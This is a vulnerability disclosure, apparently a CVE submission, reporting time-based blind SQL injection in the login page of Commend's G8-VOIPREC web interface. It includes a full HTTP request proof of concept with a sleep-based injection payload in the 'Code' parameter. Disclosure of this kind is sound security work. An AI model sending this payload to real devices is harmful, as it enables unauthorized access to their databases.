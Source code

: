 # CVE-2023-XXXXX
## [Suggested description]

G8-VOIPREC (Commend VoIPRec) web interface is vulnerable to time-base blind SQL injections in "Code" parameter on login page.

## [Additional Information]
PoC:

POST /cgi-bin/SecComRecX.cgi HTTP/1.1
Host: 192.168.88.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://192.168.88.10
Connection: close
Referer: http://192.168.88.10/ComRecX/comrecxapp.html

Action=request&Code=userpasswordasdasd'%2b(select*from(select(sleep(6)))a)%2b'


## [Vulnerability Type]
SQL Injection


## [Vendor of Product]
Commend International


## [Affected Product Code Base]
G8-VOIPREC


## [Attack Type]
Remote


## [Impact Information Disclosure]
true


## [Attack Vectors]
Remote user can use malicious SQL code for backend database manipulation to access information that was not intended to be displayed.


## [Discoverer]
Alexander Starikov (Jet Infosystems, jet.su), Ivashchenko Sergey (Jet Infosystems, jet.su)


## [Reference]
https://www.commend.com/
